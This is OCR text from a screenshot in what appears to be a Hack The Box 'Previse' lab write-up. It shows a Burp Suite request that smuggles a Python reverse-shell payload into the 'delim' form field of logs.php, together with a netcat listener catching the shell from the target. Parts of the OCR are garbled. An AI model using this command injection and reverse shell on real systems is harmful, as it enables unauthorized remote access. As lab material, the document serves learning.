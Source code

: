 ![](Maszyny/Linux/Previse/Pasted%20image%2020210816173958.png)

Previse File Access Logs - Chromium
- OX
C Previse File Access Logs
X
+
→ X
A Not secure | 10.10.11.104/file_logs.php
Burp Suite
Burp Project Intruder Repeater
Dashboard Target Proxy
Window Help
Intruder Repeater
Sequencer
HOME
ACCOUNTS
FILES
1 x
MANAGEMENT
Send
Cancel
<
Request
R
Request Log Data
Р
1
We take security very seriously, and keep logs of file access actions.
Find out which users have been downloading files.
File delimeter:
comma
Pretty Raw in Actions
1 POST /logs.php HTTP/1.1
2 Host: 10.10.11.104
3 Content-Length: 257
4 Cache-Control: max-age=0
5 Upgrade-Insecure-Requests: 1
6 Origin: http://10.10.11.104
7 Content-Type: application/x-www-form-urlencoded
8 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebkit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150
Safari/537.36
9 Accept:
text/html,application/xhtml+xml,application/xml;q=0.9, image/av
if, image/webp, image/apng,*/*;q=0.8, application/signed-exchange
;v=b3;q=0.9
10 Referer: http://10.10.11.104/file_logs.php
11 Accept-Encoding: gzip, deflate
12 Accept - Language: en-US, en;q=0.9
13 Cookie: PHPSESSID=b40uulp7ak56rjri7321 09c1sq
14 Connection: close
15
16 delim
comma/python+-C+'import +socket, subprocess, os%3bs%3dsocket.sock
et (socket. AF_INET, socket. SOCK_STREAM)%3bs.connect(("10.10.14.1
1",9001))%3bos. dup21 s. fileno (7,0)%3b+os. dup21 s. fileno),1)%3b+
os.dup 21 s. fileno),2)%3bp%3dsubprocess.call(["/bin/sh","-1"])%
3b'
SUBMIT
File
Edit View Bookmarks Settings Help
RX packets 471434 bytes 94621648 (90.2 MiB)
RX errors dropped 0 overruns frame 0
TX packets 481414 bytes 72718397 (69.3 MiB)
TX errors dropped 0 overruns 0 carrier 0
collisions
(kali kali)-[-/htb/previse/siteBackup]
Ls
rlwrap nc - vnp 9001
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on ::: 9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.104.
Ncat: Connection from 10.10.11.104:42568.
can't access tty; job control turned off
OF Search..
O matches
Done
